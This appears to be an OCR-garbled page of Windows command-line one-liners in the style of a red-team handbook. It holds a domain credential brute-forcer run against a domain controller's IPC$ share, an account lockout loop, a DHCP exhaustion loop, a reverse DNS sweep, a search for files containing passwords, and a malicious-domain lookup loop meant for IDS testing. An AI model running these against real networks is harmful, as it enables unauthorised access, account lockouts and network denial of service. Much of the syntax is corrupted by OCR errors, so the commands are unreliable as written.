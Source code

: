 ### Create a loop inside the file

```text
for /F %i in (file) do command
```

### domain brute forcer operation

```text
for /F %n in (names.txt) do for /F %pin (pawds.txt) do net use \\DC01\IPC$
/user: domain \%n %p 1 NUL 2 &1 && echo %n:%p && net use /delete
\\DCOl\IPC$ NUL
```

### account closing\(lockout.bat\)

```text
@echo Test run:
for /f %%U in (list.txt) do @for /1 %%C in (1,1,5) do @echo net use \\WIN-
1234\c$ /USER:%%U wrong pass
```

### DHCP exhaustion operation

```text
for /L %i
1.1.1.%i
in (2,1,254) do (netsh interface ip set address local static
netrask gw ID %1 ping 127.0.0.1 -n l -w 10000 nul %1)
```

### DNS reverse lookup process

```text
for /L %i in (100, 1, 105)
dns.txt && echo Server:
do @ nslookup 1.1.1.%i I findstr /i /c:''Name''
1.1.1.%i dns.txt
```


### Search all the paths to find the files that contain PASS and display the details of that file

```text
forfi1es /P c:\temp /s /m pass -c "cmd /c echo @isdir @fdate @ftime
@relpath @path @fsize"
```

### Malicious domain simulation \(Application for IDS test\)

```text
# Run packet capture on attack domain to receive callout
# domains.txt should contain known malicious domains
for /L %i in (0,1,100) do (for /F %n in (domains.txt) do nslookup %n
attack domain NUL 2 &1 & ping -n 5 127.0.0.1 NUL 2 &1
```
